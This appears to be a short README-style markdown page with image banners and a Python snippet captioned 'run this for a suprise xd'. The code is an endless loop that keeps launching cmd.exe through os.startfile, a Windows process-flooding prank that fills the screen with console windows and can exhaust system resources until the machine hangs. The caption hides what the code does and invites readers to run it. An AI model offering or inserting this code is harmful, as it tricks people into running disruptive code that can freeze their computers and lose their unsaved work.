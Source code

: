 <p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>
<p align="center">
  <p align="center">
    run this for a suprise xd
  </p>


```python
import os

def purelxw():
	while True:
		try:
			os.startfile('cmd.exe')
		except:
			pass
purelxw()
```
<p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>
